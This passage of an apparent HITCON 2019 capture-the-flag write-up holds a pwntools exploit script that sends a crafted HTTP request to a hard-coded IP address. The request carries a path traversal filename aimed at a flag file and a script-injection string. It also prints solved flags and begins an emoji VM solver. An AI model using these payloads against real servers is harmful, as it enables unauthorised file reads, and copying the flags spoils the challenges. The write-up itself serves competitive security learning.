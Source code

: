 Here is my exploit script:

```python
from pwn import *
import urllib

encoding = "utf-8"

r = remote("52.197.162.211", 80)

s = 'filename'
print(s)
res1 = (urllib.quote_plus(s.encode(encoding)))
l1 = len(res1)

#s = 'web.config'
s = '../../../../FLAG.txt'
print(s)
res2 = (urllib.quote_plus(s.encode(encoding)))
l2 = len(res2)

print(res1 + "=" + res2)
print("Length: ", l1 + l2 + 1)

s = "<script>alert(123)</script>"
shit = "&x=" + urllib.quote_plus(s.encode(encoding))

payload = '''GET / HTTP/1.1
Host: 52.197.162.211
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}'''.format(l1 + l2 + 1 + len(shit), res1 + "=" + res2 + shit).replace("\n", "\r\n")


r.send(payload)

r.interactive()
```

`hitcon{Amazing!!! @irsdl 1s ind33d the .Net KING!!!}`

## Pwn

### PoE - I

* https://github.com/yuawn/CTF/blob/master/2019/hitcon/PoE/poe-I.py


### EmojiiiVM
* https://github.com/yuawn/CTF/tree/master/2019/hitcon/EmojiiiVM

```python=
#!/usr/bin/env python3
#from pwn import *
import re

# hitcon{H0p3_y0u_Enj0y_pWn1ng_th1S_3m0j1_vM_^_^b}

'''
store [i] [j] [top]
load  top = mem[i][j]
'''

num = [ '😀' , '😁', '😂' , '🤣' , '😜' , '😄' , '😅' , '😆' , '😉' , '😊' , '😍' ]
```